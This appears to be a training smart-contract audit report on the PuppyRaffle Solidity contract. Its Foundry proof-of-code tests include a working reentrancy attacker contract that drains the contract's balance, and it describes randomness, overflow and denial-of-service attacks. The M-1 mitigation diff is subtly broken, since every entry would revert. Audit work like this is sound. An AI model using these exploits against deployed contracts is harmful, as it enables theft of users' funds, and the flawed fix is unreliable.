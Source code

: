 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./me.jpeg" alt="Logo">
    <div>
    <h1>Protocol Audit Report</h1>
    <h3>Prepared by: th3hybrid</h3>
    </div>
</div>

</body>
</html>
<!-- Your report starts here! -->

Prepared by: [th3hybrid](https://github.com/th3hybrid/)

Lead Security Researcher: 
- th3hybrid

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)

# Protocol Summary

This project is to enter a raffle to win a cute dog NFT. The protocol should do the following:

1. Call the `enterRaffle` function with the following parameters:
   1. `address[] participants`: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
2. Duplicate addresses are not allowed
3. Users are allowed to get a refund of their ticket & `value` if they call the `refund` function
4. Every X seconds, the raffle will be able to draw a winner and be minted a random puppy
5. The owner of the protocol will set a feeAddress to take a cut of the `value`, and the rest of the funds will be sent to the winner of the puppy.

# Disclaimer

The YOUR_NAME_HERE team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details

**The findings described in this document correspond the following commit hash:**
```
2a47715b30cf11ca82db148704e67652ad679cd8
```

## Scope 

```
./src/
└── PuppyRaffle.sol
```

## Roles

Owner - Deployer of the protocol, has the power to change the wallet address to which fees are sent through the `changeFeeAddress` function.
Player - Participant of the raffle, has the power to enter the raffle with the `enterRaffle` function and refund value through `refund` function.
  
# Executive Summary
## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 4                      |
| Medium   | 4                      |
| Low      | 1                      |
| Gas      | 2                      |
| Info     | 7                      |
| Total    | 18                     |


# Findings

## High

### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance.

**Description:** The `PuppyRaffle::refund` function does not follow CEI (Checks,Effects,Interactions) and as a result, enables participants to drain the contract balance.

In the `PuppyRaffle::refund` function , we first make an external call to the `msg.sender` address before updating `PuppyRaffle::players` array.

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

  
 @>     payable(msg.sender).sendValue(entranceFee);
 @>     players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

A player who has entered the raffle could have a `fallback/receive` function that keeps calling `PuppyRaffle::refund` function until the contract balance is drained.

**Impact:** All fees paid by raffle entrants could be stolen by the malicious participant. 

**Proof of Concept:**

1. User enters the raffle
2. Attacker sets up a contract with a `receive` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their attack contract,draining the contract balance.

**Proof of Code:**

<details>
<summary>Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript
function test_reentrancyRefund() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReentrancyAttacker attacker = new ReentrancyAttacker(puppyRaffle);
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackerBalance = address(attacker).balance;
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;
        vm.prank(attackUser);
        attacker.attack{value: entranceFee}();
        uint256 endingAttackerBalance = address(attacker).balance;
        uint256 endingPuppyRaffleBalance = address(puppyRaffle).balance;
        
        assertEq(endingAttackerBalance, entranceFee + startingPuppyRaffleBalance);
        console.log("startingAttackerBalance: ", startingAttackerBalance);
        console.log("startingPuppyRaffleBalance: ", startingPuppyRaffleBalance);
        console.log("endingAttackerBalance: ", endingAttackerBalance);
        console.log("endingPuppyRaffleBalance: ", endingPuppyRaffleBalance);
    }
```

And this contract too

```javascript
contract ReentrancyAttacker {
    uint256 attackerIndex;
    uint256 entranceFee;
    PuppyRaffle puppyRaffle;

    constructor (PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}
```

</details>

**Recommended Mitigation:** To prevent this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally, we should move the event emission up as well.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
        
+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);
        payable(msg.sender).sendValue(entranceFee);
-       players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }
```

### [H-2] Weak randomness in `PuppyRaffle::selectWinner` allows users to influence or predict the winner and influence or predict the winning puppy

**Description:** Hashing the `msg.sender`, `block.timestamp`, and `block.difficulty` together creates a predictable random number. A predicatable random number is not a good random number, malicious users can manipulate these values or know them ahead of time to choose the winner of the raffle themselves.

*Note:* This additionally means users could front-run this function and call `refund` if they see they are not the winner.

**Impact:** Any user can influence the winner of the raffle, winning the money and selecting the `rarest` puppy. Making the entire raffle worthless if it becomes a gas war as to who wins the raffles.

**Proof of Concept:**

1. Validators can know ahead of time the `block.timestamp` and `block.difficulty` and use that to predict when/how to participate. See the [solidity blog on prevrandao](https://soliditydeveloper.com/prevrandao). `block.difficulty`  was recently replaced with prevrandao.
2. Users can mine/manipulate their `msg.sender` value to result in their address being used to generate the winner.
3. Users can revert their `selectWinner` transaction if they don't like the winner or resulting puppy.

Using on-chain values as randomness seed is a [well-documented attack vector](https://betterprogramming.pub/how-to-generate-truly-random-numbers-in-solidity-and-blockchain-9ced6472dbdf) in the blockchain space.

**Recommended Mitigation:** Consider using a cryptographically provable random number generator such as Chainlink VRF.

### [H-3] Integer overflow of `PuppyRaffle::totalFees` loses fees 


**Description:** In solidity versions prior to `0.8.0` integers were subject to integer overflows.

```javascript
uint64 myVar = type(uint64).max;
//18446744073709551615
myVar = myVar + 1
//myVar will be 0
```

**Impact:** In `PuppyRaffle::selectWinner`, `totalFees` are accumulated for the `feeAddress` to collect later in `PuppyRaffle::withdrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fees, leaving fees permanently stuck in the contract

**Proof of Concept:**
1. We conclude a raffle of 4 players
2. we then have 89 players enter a new raffle, and conclude the raffle
3. `totalFees` will be:

```javascript
totalFees = totalFees + uint64(fee);
// substituted
totalFees = 800000000000000000 + 17800000000000000000;
// due to overflow, the following is now the case
totalFees = 153255926290448384;
```

4. you will not be able to withdraw, due to the line in `PuppyRaffle::withdrawFees`:

```javascript
require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

Although you could use `selfdestruct` to send ETH to this contract in order to match and withdraw the fees, this is clearly not the intended design of the protocol. At some point, there will be too much `balance` in the contract that the above will be impossible to meet.

<details>
<summary>Proof of Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript
    function test_canOverflowFees() public playersEntered {
        console.log("Fees: ", uint256(puppyRaffle.totalFees()));
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        address[] memory players = new address[](89);
        for (uint256 i = 0; i < 89; i++) {
            players[i] = address(uint160(i + 5));
        }
        puppyRaffle.enterRaffle{value: entranceFee * 89}(players);

        uint256 expectedFees = (93 * entranceFee * 20) / 100;

        puppyRaffle.selectWinner();
        uint256 actualFees = puppyRaffle.totalFees();
        console.log("Expected Fees: ", expectedFees);
        console.log("Actual Fees: ", actualFees);
        assert(actualFees < expectedFees);
        
        // We are also unable to withdraw any fees because of the require check
        vm.prank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
    }
```

</details>

**Recommended Mitigation:** There are a few recommended mitigations here.

1. Use a newer version of Solidity that does not allow integer overflows by default.

```diff 
- pragma solidity ^0.7.6;
+ pragma solidity ^0.8.18;
```

Alternatively, if you want to use an older version of Solidity, you can use a library like OpenZeppelin's `SafeMath` to prevent integer overflows. 

2. Use a `uint256` instead of a `uint64` for `totalFees`. 

```diff
- uint64 public totalFees = 0;
+ uint256 public totalFees = 0;
```

3. Remove the balance check in `PuppyRaffle::withdrawFees` 

```diff
- require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

There are more attack vectors with that final require, so we recommend removing it regardless.

### [H-4] `PuppyRaffle::refund` replaces an index with address(0) which can cause the function `PuppyRaffle::selectWinner` to always revert

**Description:** `PuppyRaffle::refund` is supposed to refund a player and remove him from the current players. But instead, it replaces his index value with address(0) which is considered a valid value by solidity. This can cause a lot issues because the players array length is unchanged and address(0) is now considered a player.

```javascript
function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

If a player refunds his position, the function PuppyRaffle::selectWinner will always revert. Because more than likely the following call will not work because the prizePool is based on a amount calculated by considering that that no player has refunded his position and exit the lottery. And it will try to send more tokens that what the contract has :

```javascript
uint256 totalAmountCollected = players.length * entranceFee;
uint256 prizePool = (totalAmountCollected * 80) / 100;

(bool success,) = winner.call{value: prizePool}("");
require(success, "PuppyRaffle: Failed to send prize pool to winner");
```

However, even if this calls passes for some reason (maybe there are more native tokens than what the players have sent or because of the 80% ...). The call will thankfully still fail because of the following line that doesn't allow NFT minting to the zero address.

```javascript
 _safeMint(winner, tokenId);
```

**Impact:** The lottery is stopped, any call to the function `PuppyRaffle::selectWinner` will revert. There is no actual loss of funds for users as they can always refund and get their tokens back. However, the protocol is shut down and will lose all it's customers. A core functionality is broken, Impact is high.

**Proof of Code:**

<details>
<summary>Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript
function testWinnerSelectionRevertsAfterExit() public playersEntered {
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        
        // There are four winners. Winner is last slot
        vm.prank(playerFour);
        puppyRaffle.refund(3);

        // reverts because out of Funds
        vm.expectRevert();
        puppyRaffle.selectWinner();

        vm.deal(address(puppyRaffle), 10 ether);
        vm.expectRevert("ERC721: mint to the zero address");
        puppyRaffle.selectWinner();

    }
```

</details>

**Recommended Mitigation:** Delete the player index that has refunded.

```diff
-   players[playerIndex] = address(0);

+    players[playerIndex] = players[players.length - 1];
+    players.pop()
```

## Medium

### [M-1] Unbounded for loop to check for duplicates in `PuppyRaffle::enterRaffle` can lead to denial of service (DoS)attack

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates.However, the longer the `PuppyRaffle::players` array is, the more checkd a new player will have to make. This means the gas costs for players who enter right when the raffle starts will be dramatically lower tha those who enter later. Every additional address in the `players` array, is an addtional check the loop will ahve to make.

```javascript
//@audit DoS Attack
@>    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Impact:** The gas costs for raffle entrance will greatly increase as more players enter the raffle. Discouraging later users from entering, and causing a rush at the start of a raffle to be one of the first entrants in the queue.

An attacker might make the `PuppyRaffle::players` array so big, that no one else enters,guaranteeing themselves the win.

**Proof of code:**

If we have 2 sets of 100 players enter, the gas cost will be as such:
- 1st 100 players: ~6252047 gas
- 2nd 100 players: ~18068137 gas

This is more than 3x more expensive for the second 100 players.

<details>
<summary>PoC</summary>
Place the following test into `PuppyRaffleTest.t.sol`,

```javascript
    function test_denialOfService() public {
        vm.txGasPrice(1);

        uint256 playerNum = 100;
        address[] memory players = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++) {
            players[i] = address(uint160(i));
        }
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playerNum}(players);
        uint256 gasEnd =gasleft();
        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas cost of the first 100 players: ", gasUsedFirst);

        //second 100 players
        address[] memory playersTwo = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++) {
            playersTwo[i] = address(uint160(i + playerNum));
        }
        uint256 gasStartTwo = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playerNum}(playersTwo);
        uint256 gasEndTwo =gasleft();
        uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
        console.log("Gas cost of the second 100 players: ", gasUsedSecond);
        assert(gasUsedSecond > gasUsedFirst);
    }
```

</details>

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.

```diff
+    mapping(address => uint256) public addressToRaffleId;
+    uint256 public raffleId = 0;
    .
    .
    .
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
+            addressToRaffleId[newPlayers[i]] = raffleId;            
        }

-        // Check for duplicates
+       // Check for duplicates only from the new players
+       for (uint256 i = 0; i < newPlayers.length; i++) {
+          require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+       }    
-        for (uint256 i = 0; i < players.length; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-            }
-        }
        emit RaffleEnter(newPlayers);
    }
.
.
.
    function selectWinner() external {
+       raffleId = raffleId + 1;
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
```

3. Alternatively, you could use **[OpenZeppelin's EnumerableSet library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet)**.

### [M-2] Balance check on `PuppyRaffle::withdrawFees` enables griefers to selfdestruct a contract to send ETH to the raffle, blocking withdrawals

**Description:** The `PuppyRaffle::withdrawFees` function checks the `totalFees` equals the ETH balance of the contract (`address(this).balance`). Since this contract doesn't have a `payable` fallback or `receive` function, you'd think this wouldn't be possible, but a user could `selfdesctruct` a contract with ETH in it and force funds to the `PuppyRaffle` contract, breaking this check. 

```javascript
    function withdrawFees() external {
@>      require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
```

**Impact:** This would prevent the `feeAddress` from withdrawing fees. A malicious user could see a `withdrawFee` transaction in the mempool, front-run it, and block the withdrawal by sending fees. 

**Proof of Concept:**

1. `PuppyRaffle` has 800 wei in it's balance, and 800 totalFees.
2. Malicious user sends 1 wei via a `selfdestruct`
3. `feeAddress` is no longer able to withdraw funds

**Recommended Mitigation:** Remove the balance check on the `PuppyRaffle::withdrawFees` function. 

```diff
    function withdrawFees() external {
-       require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
```

### [M-3] Unsafe cast of `PuppyRaffle::fee` loses fees

**Description:** In `PuppyRaffle::selectWinner` there is a type cast of a `uint256` to a `uint64`. This is an unsafe cast, and if the `uint256` is larger than `type(uint64).max`, the value will be truncated. 

```javascript
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length > 0, "PuppyRaffle: No players in raffle");

        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 fee = totalFees / 10;
        uint256 winnings = address(this).balance - fee;
@>      totalFees = totalFees + uint64(fee);
        players = new address[](0);
        emit RaffleWinner(winner, winnings);
    }
```

The max value of a `uint64` is `18446744073709551615`. In terms of ETH, this is only ~`18` ETH. Meaning, if more than 18ETH of fees are collected, the `fee` casting will truncate the value. 

**Impact:** This means the `feeAddress` will not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:** 

1. A raffle proceeds with a little more than 18 ETH worth of fees collected
2. The line that casts the `fee` as a `uint64` hits
3. `totalFees` is incorrectly updated with a lower amount

You can replicate this in foundry's chisel by running the following:

```javascript
uint256 max = type(uint64).max
uint256 fee = max + 1
uint64(fee)
// prints 0
```

**Recommended Mitigation:** Set `PuppyRaffle::totalFees` to a `uint256` instead of a `uint64`, and remove the casting. There is a comment which says:

```javascript
// We do some storage packing to save gas
```
But the potential gas saved isn't worth it if we have to recast and this bug exists. 

```diff
-   uint64 public totalFees = 0;
+   uint256 public totalFees = 0;
.
.
.
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
-       totalFees = totalFees + uint64(fee);
+       totalFees = totalFees + fee;
```

### [M-4] Smart contract wallets raffle winners without a `receive` or a `fallback` function will block the start of a new contest

**Description:** The `PuppyRaffle::selectWinner` function is responsible for resetting the lottery. However, if the winner is a smart contract wallets that rejects payment, the lottery would not be able to restart.

Users could easily call the `selectWinner` function again and non-wallet entrants could enter, but it could cost a lot due to the duplicate check and a lottery reset could get very challenging.

**Impact:** The `PuppyRaffle::selectWinner` function could revert many times, making a lottery reset difficult.

Also, true winners would not get paid out and someone else could take their money.

**Proof of Concept:**
1. 10 smart contract wallets enter the lotter without a fallback or receive function.
2. The lottery ends
3. The `selectWinner` function wouldn't work, even though the lottery is over!

**Recommended Mitigation:** There are a few options to mitigate this issue.

1. Do not allow smart contract wallets entrants (not recommended)
2. Create a mapping of addresses -> payout amounts so winners can pull their funds out themselves with a new `claimPrize` function, putting the owness on the winner to claim their prize. (Recommended)

>Pull over push


## Low

### [L-1] `PuppyRaffle::getActivePlayerIndex` returns a 0 for non-existent players and for players at index 0, causing a player at index 0 to incorrectly think they have not entered the raffle

**Description:** If a player is in the `PuppyRaffle::players` array at index 0, this will return 0, but according to the natspec, it will also return 0 if the player is not in the array.

```javascript
function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }

@>      return 0;
    }
```

**Impact:** A player at index 0 may incorrectly think they have not entered the raffle, and attempt to enter the raffle again, which will fail,hence, wasting gas.

**Proof of Concept:**

1. User enters the raffle, they are the first entrant
2. `PuppyRaffle::getActivePlayerIndex` returns 0
3. User thinks they have not entered correctly due to the function documentation

**Proof of Code:**

<details>
<summary>Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript
function testGetActivePlayerIndexEdgeCase() public {
        address[] memory players = new address[](2);
        players[0] = playerOne;
        players[1] = playerTwo;
        puppyRaffle.enterRaffle{value: entranceFee * 2}(players);

        assertEq(puppyRaffle.getActivePlayerIndex(playerOne), 0);
        assertEq(puppyRaffle.getActivePlayerIndex(address(3)), 0);
        console.log("playerOne Index:", puppyRaffle.getActivePlayerIndex(playerOne));
        console.log("Inactive player Index:", puppyRaffle.getActivePlayerIndex(address(3)));
    }
```

</details>

**Recommended Mitigation:** The easiest recommendation is to revert if the player is not in the array instad of returning 0.

You could also reserve the 0th position for any competition, but a better solution might be to return an `int256` where the function returns -1 if the player is not active;

## Gas

### [G-1] Unchanged state variable should be declared as immutable or constant.

**Description:** Reading from storage is much more expensive than reading from a constant or immutable variable.
 
Instances:
- `PuppyRaffle::raffleDuration` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`

### [G-2] Storage variables in a loop should be cached.

Everytime you call `players.length` you read from storage, as opposed to memory which is more gas efficient.

```diff
+   uint256 playersLength = players.length;
-   for (uint256 i = 0; i < players.length - 1; i++) {
+   for (uint256 i = 0; i < playersLength - 1; i++) {
-      for (uint256 j = i + 1; j < players.length; j++) {
+      for (uint256 j = i + 1; j < playersLength; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Recommendation:**
Cache the lengths of storage arrays if they are used and not modified in for loops

## Informational / Non-Critical 

### [I-1] Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

<details><summary>1 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 2](src/PuppyRaffle.sol#L2)

	```solidity
	pragma solidity ^0.7.6; //q why less than v8? ownable is set by default
	```

</details>

### [I-2] Using an outdated version of solidity is not recommended.

solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommendation:**
Deploy with a recent version of Solidity (at least 0.8.0) with no known severe issues.

Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

Please see [slither] (https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity) documentation for more information.

### [I-3] Missing checks for `address(0)` when assigning values to address state variables

Check for `address(0)` when assigning values to address state variables.

<details><summary>2 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 66](src/PuppyRaffle.sol#L66)

    ```solidity
            feeAddress = _feeAddress;
    ```

- Found in src/PuppyRaffle.sol [Line: 204](src/PuppyRaffle.sol#L204)

    ```solidity
            feeAddress = newFeeAddress;
    ```

</details>

### [I-4] `PuppyRaffle::selectWinner` should follow CEI, which is a best practice

It's best to keep code clean and follow CEI (Checks, Effects, Interactions).

```diff
-       (bool success,) = winner.call{value: prizePool}("");
-       require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
+       (bool success,) = winner.call{value: prizePool}("");
+       require(success, "PuppyRaffle: Failed to send prize pool to winner");
```

### [I-5] Use of "magic" numbers is dicouraged

It can be confusing to see number literals in a codebase, and it's much more readable if the numbes are given a name.

Examples:
```javascript
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
```
Instead, you could use:

```javascript
    uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
    uint256 public constant FEE_PERCENTAGE = 20;
    uint256 public constant PRIZE_POOL_PRECISION = 100;
```

### [I-6] State changes are missing events

### [I-7] `PuppyRaffle::_isActivePlayer` is never used and should be removed 